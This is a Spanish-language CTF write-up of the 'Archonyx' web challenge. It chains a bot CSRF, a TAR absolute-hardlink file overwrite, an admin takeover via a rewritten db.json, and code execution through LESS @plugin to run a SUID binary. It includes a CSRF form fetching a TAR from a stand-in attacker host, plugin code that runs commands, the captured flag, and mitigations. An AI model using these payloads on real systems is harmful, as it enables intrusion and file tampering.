





# Archonyx: de un bot autenticado a RCE mediante cuatro primitivas encadenadas

**Categoría:** Web · **Dificultad:** Medium · **Evento:** Cyber Apocalypse CTF 2026: The Salt Crown

> **Scope:** este análisis documenta un reto retirado de un CTF y una reproducción realizada en un entorno autorizado y aislado.

Archonyx no se resolvía encontrando una vulnerabilidad aislada. La cadena exigía obtener y validar cuatro capacidades distintas:

1. hacer que un bot autenticado ejecutara una acción controlada;
2. convertir una extracción TAR en sobrescritura arbitraria de archivos;
3. transformar esa escritura en acceso administrativo;
4. utilizar el panel privilegiado para ejecutar JavaScript en el servidor.

La secuencia final terminó así:

```text
/report
  ↓
bot autenticado
  ↓
CSRF contra /api/fetch
  ↓
TAR extraído antes de validarse
  ↓
hardlink absoluto
  ↓
sobrescritura arbitraria de archivos
  ↓
db.json controlado
  ↓
acceso ledgermaster
  ↓
LESS @plugin
  ↓
RCE como ctf
  ↓
/readflag SUID
  ↓
flag
```



La parte relevante no fue ejecutar una receta lineal. Fue aislar cada primitiva, demostrarla por separado y entender qué nueva frontera permitía cruzar.

## 1. La superficie inicial

Archonyx era una aplicación Node.js y Express para registrar convoyes, subir archivos y solicitar la revisión de URLs por parte de un bot.

Las rutas más relevantes eran:

```text
POST /report
POST /api/fetch
POST /api/manifest
POST /enter
GET  /ledgermaster/
POST /ledgermaster/render
```

La aplicación creaba dos usuarios privilegiados al arrancar:

```text
admin → ledgermaster
bot   → warden
```

Las contraseñas se generaban aleatoriamente, por lo que no tenía sentido intentar reutilizarlas o adivinarlas.

Las cuentas públicas se registraban como `broker`, pero permanecían sin verificar. Esa vía tampoco proporcionaba acceso a las funciones protegidas.

La superficie útil quedó reducida a dos elementos:

- un bot autenticado que visitaba URLs arbitrarias;
- un endpoint de descarga remota accesible para usuarios autenticados.

## 2. Primera primitiva: utilizar la sesión del bot

El endpoint `/report` aceptaba una URL y ordenaba al bot que la visitara:

```javascript
exports.submitSupport = (req, res) => {
  const { body, url } = req.body;

  if (url) {
    if (
      !url.startsWith('http://') &&
      !url.startsWith('https://')
    ) {
      return res.render('petition', {
        error: 'Invalid URL'
      });
    }

    bot.visit(url);
  }
};
```

El bot generaba un JWT válido para el usuario `bot`, iniciaba Chromium y configuraba la cookie directamente para el origen interno de Archonyx:

```javascript
const token = jwt.sign(
  {
    username: 'bot',
    role: 'warden'
  },
  jwtSecret
);

browser = await puppeteer.launch({
  headless: 'new',
  args: [
    '--no-sandbox',
    '--disable-setuid-sandbox',
    '--disable-features=SameSiteByDefaultCookies,CookiesWithoutSameSiteMustBeSecure',
    '--disable-popup-blocking',
  ],
});

const page = await browser.newPage();

await page.setCookie({
  name: 'token',
  value: token,
  url: `http://${appHost}:${port}/`,
  path: '/',
  httpOnly: true,
});
```

La cookie era `HttpOnly`, por lo que una página externa no podía leer directamente su contenido.

Pero no era necesario robarla.

El detalle crítico estaba en la configuración del navegador. El bot deshabilitaba explícitamente dos protecciones de Chromium:

```text
SameSiteByDefaultCookies
CookiesWithoutSameSiteMustBeSecure
```

Además, la cookie se instalaba sin especificar un atributo `SameSite`.

Esto permitía que un formulario `POST` entre sitios enviara la cookie autenticada hacia el origen interno. Con las protecciones SameSite modernas activas, un POST cross-site de este tipo normalmente no incluiría una cookie tratada como `Lax`.

La aplicación habilitaba globalmente ambos parsers:

```javascript
app.use(express.urlencoded({ extended: true }));
app.use(express.json());
```

Y `/api/fetch` aceptaba el parámetro `url` desde `req.body` sin exigir JSON ni implementar una defensa CSRF específica:

```javascript
exports.uploadUrl = async (req, res) => {
  const { url } = req.body;
};
```

Por tanto, una página externa podía enviar un formulario tradicional:

```html
<form
  method="POST"
  action="http://127.0.0.1:1337/api/fetch"
>
  <input
    type="hidden"
    name="url"
    value="https://ATTACKER/stage1.tar"
  >
</form>

<script>
  document.forms[0].submit();
</script>
```

Cuando el bot visitaba esta página, el formulario provocaba una navegación `POST` hacia `/api/fetch`.

Como Chromium se ejecutaba con las protecciones SameSite deshabilitadas, el navegador incluía la cookie JWT del bot en esa petición.

La primera capacidad obtenida fue:

```text
bot con protecciones SameSite deshabilitadas
→ cookie JWT instalada para el origen interno
→ formulario POST entre sitios
→ /api/fetch con sesión del bot
→ descarga remota autenticada
```

No se robó la cookie. Se utilizó indirectamente desde el navegador del bot.

## 3. El detalle que convirtió una descarga en una escritura

Archonyx tenía dos flujos distintos para procesar archivos.

La subida directa validaba antes de extraer:

```javascript
await uploadService.validateArchive(
  req.file.buffer
);

await uploadService.extractArchive(
  req.file.buffer,
  extractDir
);
```

La descarga remota hacía lo contrario:

```javascript
await uploadService.downloadAndExtract(
  url,
  extractDir
);

res.json({
  data: 'Mirror station bundle fetched and lodged'
});

setImmediate(() =>
  uploadService.validateExtractedFiles(extractDir)
);
```

El servicio vulnerable descargaba y extraía en una sola operación:

```javascript
async function downloadAndExtract(url, extractDir) {
  fs.mkdirSync(extractDir, { recursive: true });

  await download(url, extractDir, {
    extract: true
  });
}
```

La validación llegaba después.

Esto significaba que cualquier efecto lateral producido durante la extracción ya había ocurrido cuando comenzaba la limpieza.

La diferencia no era cosmética:

```text
Flujo directo:
validar → extraer

Flujo remoto:
extraer → responder → validar después
```

La segunda secuencia era explotable porque aceptaba TAR y alcanzaba una implementación insegura de hardlinks.

## 4. Segunda primitiva: hardlink absoluto y sobrescritura arbitraria

Archonyx utilizaba:

```text
decompress 4.2.1
decompress-tar 4.1.1
```

`decompress-tar` conservaba directamente el `linkname` de las entradas TAR:

```javascript
if (
  header.type === 'symlink' ||
  header.type === 'link'
) {
  file.linkname = header.linkname;
}
```

Después, `decompress` validaba que el destino de extracción permaneciera dentro del directorio previsto:

```javascript
if (
  realDestinationDir.indexOf(realOutputPath) !== 0
) {
  throw new Error(
    'Refusing to write outside output directory: ' +
    realDestinationDir
  );
}
```

Sin embargo, para una entrada de tipo hardlink, utilizaba directamente `x.linkname` como origen:

```javascript
if (x.type === 'link') {
  return fsP.link(x.linkname, dest);
}
```

No existía una comprobación equivalente que rechazara un `linkname` absoluto antes de pasarlo a `fs.link`.

Además, el guard `preventWritingThroughSymlink` solo se ejecutaba para entradas de tipo `file`, no para `link`:

```javascript
if (x.type === 'file') {
  return preventWritingThroughSymlink(
    dest,
    realOutputPath
  );
}
```

La diferencia era crítica:

```text
Destino del enlace:
validado dentro del directorio de extracción

Origen del enlace:
x.linkname utilizado directamente
```



Eso permitía construir un TAR con dos entradas del mismo nombre:

```text
1. pivot → hardlink a /app/data/db.json
2. pivot → archivo regular con datos controlados
```

La primera entrada creaba dentro del directorio de extracción otro nombre para el inode de `/app/data/db.json`.

La segunda entrada se procesaba mediante:

```javascript
fsP.writeFile(dest, x.data, { mode });
```

Con el modo de apertura por defecto, `writeFile` trunca el archivo existente y escribe sobre él. No elimina previamente el enlace para crear un inode nuevo.

Como `pivot` ya era un hardlink al inode de `/app/data/db.json`, el truncado y la reescritura afectaban al inode compartido y, por tanto, modificaban también la base de datos original.

Este detalle era esencial: si el extractor hubiera eliminado `pivot` antes de escribir un archivo nuevo, el enlace se habría roto y el exploit no habría modificado `db.json`.

La primitiva real no era un path traversal convencional:

```text
destino interno válido
+
origen absoluto no validado
+
escritura que trunca el inode existente
=
sobrescritura de un archivo externo
```

## 5. Validar la hipótesis antes de atacar

Antes de lanzar la cadena completa contra la instancia, el comportamiento se reprodujo localmente.

Después de extraer dos TAR de prueba:

```text
/app/data/db.json
/app/uploads/hardlink-test/pivot
```

ambos mostraron el mismo inode:

```text
1352939 ... /app/data/db.json
1352939 ... /app/uploads/hardlink-test/pivot
```

Al escribir sobre `pivot`, `db.json` quedó sustituido por el contenido controlado.

Esta prueba aisló la segunda capacidad:

```text
TAR controlado
→ hardlink absoluto
→ inode compartido
→ truncado en el mismo inode
→ sobrescritura arbitraria de archivos
```

El Dockerfile ampliaba el impacto porque el árbol `/app` pertenecía al usuario que ejecutaba Node:

```dockerfile
RUN chown -R ctf:ctf /app
USER ctf
```

La aplicación podía modificar tanto su base de datos como varios archivos públicos.

## 6. Tercera primitiva: controlar la identidad

La primera sobrescritura se dirigió contra:

```text
/app/data/db.json
```

Primero se eligió una contraseña conocida:

```text
ArchonyxAdmin123!
```

Y se calculó su hash bcrypt con las mismas dependencias del proyecto:

```bash
node -e \
  "console.log(
    require('bcryptjs')
      .hashSync('ArchonyxAdmin123!', 10)
  )"
```

El hash utilizado fue:

```text
$2b$10$dsC9VYxPVzqNFYGyoPn9Su0hIMeGcOKKsLkJzOhREKROG8COtvT5a
```

Después se construyó un TAR cuyo contenido sobrescribía `db.json` con:

- un usuario `admin`;
- rol `ledgermaster`;
- estado `verified: true`;
- el hash bcrypt conocido;
- conservación del usuario `bot`.

Mantener al bot era necesario porque su JWT ya emitido contenía el nombre de usuario, pero determinadas rutas volvían a buscarlo en la base de datos.

La secuencia causal era:

```text
generar bcrypt conocido
→ incorporarlo al db.json controlado
→ sobrescribir /app/data/db.json
→ iniciar sesión como admin
→ obtener acceso ledgermaster
```

La página maliciosa y el TAR se alojaron en un servidor controlado.

Al enviar la URL mediante `/report`, el servidor atacante observó:

```text
GET /stage1.html
GET /stage1.tar
```



Eso confirmó:

1. que el bot abrió la página;
2. que el formulario ejecutó `/api/fetch` con su sesión;
3. que Archonyx descargó y extrajo el TAR.

Después, el login con la contraseña conocida devolvió:

```text
HTTP/1.1 302 Found
Set-Cookie: token=...
Location: /ledger
```

Y `/ledgermaster/` respondió correctamente.

La tercera capacidad quedó establecida:

```text
bcrypt conocido
→ db.json controlado
→ sobrescritura arbitraria
→ identidad ledgermaster
→ acceso administrativo
```

## 7. Cuarta primitiva: LESS como motor de ejecución

El panel administrativo incluía un endpoint que procesaba CSS mediante LESS:

```javascript
await less.render(css, {
  plugins: [templateSecurityPlugin]
});
```

El control implementado para restringir recursos solo detectaba nombres con formato de URL:

```javascript
supports(filename) {
  return /^[a-z][a-z0-9+\-.]*:\/\//i
    .test(filename);
}
```

Eso bloqueaba entradas como:

```text
http://...
https://...
file://...
```

Pero no bloqueaba rutas locales absolutas:

```text
/app/public/transitions.js
```

LESS permite cargar plugins JavaScript con:

```less
@plugin "/ruta/local/plugin.js";
```

Antes de utilizar esta capacidad para obtener la flag, se validó localmente con un plugin inofensivo:

```javascript
const fs = require('fs');

fs.writeFileSync(
  '/tmp/archonyx-less-marker',
  'LESS_PLUGIN_EXECUTED\n'
);

const plugin = {
  install: function () {}
};

if (typeof registerPlugin === 'function') {
  registerPlugin(plugin);
} else {
  module.exports = plugin;
}
```

La petición:

```less
@plugin "/tmp/marker-plugin.js";
```

devolvió:

```json
{"data":"Seal cast"}
```

Y apareció:

```text
/tmp/archonyx-less-marker
LESS_PLUGIN_EXECUTED
```



Esto demostró ejecución en el servidor como usuario `ctf`.

## 8. Convertir un archivo público en plugin

No era necesario subir un archivo `.js` nuevo.

La misma primitiva de hardlink permitía sobrescribir un archivo existente y escribible:

```text
/app/public/transitions.js
```

El segundo TAR seguía la misma estructura:

```text
pivot → hardlink a /app/public/transitions.js
pivot → archivo regular con JavaScript controlado
```

El plugin final ejecutaba el helper SUID y escribía su salida dentro del directorio público:

```javascript
const fs = require('fs');
const { execFileSync } =
  require('child_process');

fs.writeFileSync(
  '/app/public/archonyx-proof.txt',
  execFileSync('/readflag')
);

const plugin = {
  install: function () {}
};

if (typeof registerPlugin === 'function') {
  registerPlugin(plugin);
} else {
  module.exports = plugin;
}
```

Después de descargar y extraer el segundo TAR, el panel administrativo recibió:

```json
{
  "css":
    "@plugin \"/app/public/transitions.js\";\n" +
    "#preview-badge { color: red; }"
}
```

El servidor respondió:

```json
{"data":"Seal cast"}
```

Y la salida quedó accesible en:

```text
/archonyx-proof.txt
```

La cuarta capacidad fue:

```text
archivo JavaScript controlado
→ LESS @plugin
→ ejecución Node.js como ctf
```

## 9. Del usuario de aplicación a la flag solo accesible por root

La RCE no permitía leer directamente `/flag.txt`.

El Dockerfile movía la flag fuera del árbol de la aplicación y restringía sus permisos:

```dockerfile
RUN mv /app/flag.txt /flag.txt \
    && chown root:root /flag.txt \
    && chmod 400 /flag.txt
```

Pero instalaba `/readflag` con SUID root:

```dockerfile
COPY readflag /readflag
RUN chmod 4755 /readflag
```

Por tanto:

```text
Node.js RCE como ctf
→ ejecutar /readflag
→ helper efectivo como root
→ lectura de /flag.txt
```

La cadena terminó con:

```text
HTB{wh4t_th3_l3dg3r_cl34rs_th3_c04st_b3l13v3s_7905347203642d5c8c3429368cc230f6}
```



## 10. Los caminos que no funcionaron

La parte más útil del reto no fue únicamente la cadena final. También fue reducir hipótesis que parecían razonables y no conducían al impacto.

### Stored XSS en convoyes

Los campos `name` y `cargo` aceptaban HTML, pero:

- estaban limitados a 40 caracteres;
- la vista escapaba los valores;
- la CSP bloqueaba scripts inline sin nonce.

La presencia de HTML almacenado no implicaba ejecución.

### El parámetro `record`

`/widget/convoy-log?record=` parecía inicialmente una posible fuente de inyección.

Sin embargo:

- el valor se obtenía con `URLSearchParams`;
- solo se utilizaba para construir una petición;
- el estado estaba limitado por una allowlist;
- la respuesta se mostraba mediante `textContent`.

No existía un sink útil para XSS.

### La supuesta API key del bot

Una prueba produjo:

```text
BOTKEY-undefined
```

La primera interpretación fue que se había recuperado parcialmente una clave del bot.

No era así.

El valor `cv_...` observado posteriormente era un identificador de convoy, no una API key.

El dato era real. La interpretación era incorrecta.

### HTML injection en nombres de archivo

`/consignments` utilizaba `innerHTML` con nombres de archivo sin escapar.

Existía una inyección HTML, pero la CSP exigía un nonce aleatorio para ejecutar scripts. Ni `onerror`, ni `<script>`, ni recursos externos proporcionaban ejecución directa.

### Falsos negativos operativos

También aparecieron errores no relacionados con la vulnerabilidad:

- túneles temporales de Cloudflare expirados;
- respuestas `530 / error 1033`;
- reinicios de instancias HTB;
- cambios de IP y puerto.

Antes de interpretar un fallo como defensa de la aplicación, era necesario verificar:

```text
GET stage1.html → 200
GET stage1.tar  → 200 y TAR válido
GET /enter      → instancia correcta
```

Separar errores operativos de hipótesis técnicas evitó descartar primitivas válidas.

## 11. Las cuatro transiciones importantes

La cadena completa puede resumirse en términos de capacidades obtenidas.

### 1. Navegación → acción autenticada

```text
/report
→ bot instala una cookie JWT
→ Chromium con protecciones SameSite deshabilitadas
→ bot visita la página controlada
→ formulario POST entre sitios
→ /api/fetch con sesión del bot
```

**Capacidad:** ejecutar una descarga remota autenticada.

### 2. Extracción → escritura arbitraria

```text
extracción antes de validación
→ hardlink absoluto
→ inode compartido
→ truncado y reescritura
```

**Capacidad:** modificar archivos propiedad de `ctf`.

### 3. Escritura → identidad privilegiada

```text
bcrypt conocido
→ db.json controlado
→ sobrescritura del almacenamiento
→ login como admin
→ ledgermaster
```

**Capacidad:** acceder a funcionalidad administrativa.

### 4. Renderizado → ejecución

```text
transitions.js controlado
→ LESS @plugin
→ Node.js
→ /readflag SUID
```

**Capacidad:** ejecutar código y cruzar la frontera hacia un recurso solo accesible por root.

Cada etapa fue validada de forma independiente antes de encadenarse.

## 12. Causas raíz

Archonyx no cayó por un único fallo.

La explotación fue posible porque varias decisiones inseguras se reforzaban entre sí:

- navegación arbitraria mediante un bot autenticado;
- ejecución del bot con las protecciones SameSite de Chromium deshabilitadas;
- cookie del bot configurada sin un atributo `SameSite` explícito;
- ausencia de protección CSRF;
- aceptación de formularios URL-encoded en una acción sensible;
- extracción remota antes de la validación;
- soporte innecesario de TAR;
- hardlinks con origen absoluto no validado;
- archivos de aplicación escribibles por el proceso;
- base de autenticación dentro del árbol modificable;
- plugins JavaScript habilitados en LESS;
- filtro basado únicamente en detectar `scheme://`;
- helper SUID disponible desde el mismo entorno comprometido.

Ninguna de estas decisiones por separado describía toda la explotación.

Su composición sí.

## 13. Mitigaciones

La defensa debe romper la cadena en varias capas.

### En el flujo del bot

- restringir URLs y protocolos;
- bloquear loopback, rangos privados y redirecciones peligrosas;
- utilizar una red aislada;
- no deshabilitar `SameSiteByDefaultCookies` ni `CookiesWithoutSameSiteMustBeSecure`;
- definir explícitamente `SameSite=Lax` o `SameSite=Strict` en la cookie;
- implementar tokens CSRF;
- validar `Origin` y `Referer`;
- evitar que una página externa pueda provocar acciones autenticadas sobre el origen interno.

### En el procesamiento de archivos

- descargar primero a una zona aislada;
- validar antes de extraer;
- rechazar TAR cuando no sea necesario;
- bloquear rutas absolutas, `..`, hardlinks, symlinks, dispositivos y entradas duplicadas;
- extraer en otro filesystem o contenedor;
- no permitir enlaces hacia el árbol de la aplicación.

### En el sistema

- ejecutar con permisos mínimos;
- separar los datos de autenticación del árbol escribible;
- deshabilitar `@plugin` en LESS;
- no permitir evaluación de JavaScript durante el renderizado;
- evitar binarios SUID dentro del contenedor de una aplicación web.

## Conclusión

Archonyx no exigía descubrir una vulnerabilidad extraordinaria.

Exigía reconocer que cuatro primitivas de capas diferentes podían componerse:

```text
navegador y SameSite
→ cookies y CSRF
→ TAR y hardlinks
→ inodes y permisos
→ JSON y autenticación
→ LESS y Node.js
→ SUID y root
```

La explotación final fue importante.

Pero la señal más útil estuvo en el método:

- aislar cada capacidad;
- demostrarla localmente;
- conservar la evidencia;
- descartar hipótesis con datos;
- no confundir errores operativos con defensas;
- encadenar las primitivas solo después de validarlas.

Ese proceso convirtió una superficie dispersa en una cadena reproducible de compromiso.

Este análisis surgió durante **Cyber Apocalypse CTF 2026: The Salt Crown**.

Resultado final certificado:

- **249.º de 6.743 equipos**;
- equipo **Cerberus Red Team**.

El [walkthrough reproducible completo](../walkthrough/archonyx-reproducible.md), con scripts, construcción de los TAR, payloads y comandos, está disponible como material técnico complementario. Este artículo se centra deliberadamente en el razonamiento, las primitivas y las transiciones que hicieron posible la cadena.
